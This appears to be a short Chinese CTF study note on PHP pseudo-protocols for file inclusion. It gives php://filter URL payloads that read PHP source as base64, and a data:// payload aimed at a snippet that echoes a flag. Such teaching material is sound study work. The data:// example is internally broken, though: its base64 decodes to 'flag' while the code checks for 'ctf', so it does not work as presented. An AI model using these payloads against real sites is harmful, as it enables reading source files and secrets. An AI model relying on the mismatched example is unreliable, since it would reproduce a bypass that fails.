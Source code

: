 ```yaml
---
title: 常见伪协议的用法
date: '2022/1/23 23:15:01'
categories:
  - - WEB安全
    - 文件上传和文件包含
abbrlink: ff8f4d6e
description: 关于filter、data伪协议的用法
tags:
---
```


## 伪协议

### filter伪协议
一般用来读取文件
> ?file=php://filter/convert.base64-encode/resource=index.php
> ?file=php://filter/read=convert.base64-encode/resource=useless.php
### data伪协议

```php
if(isset($text)&&(file_get_contents($text,'r')==="ctf")){
   echo $flag;
}
```
在这种情况下，file_get_contents()要求读取文件内容到一个字符串，但这里没没有文件，而要读取text变量，使用data伪协议绕过
> ?text=data://text/plain;base64,ZmxhZw==


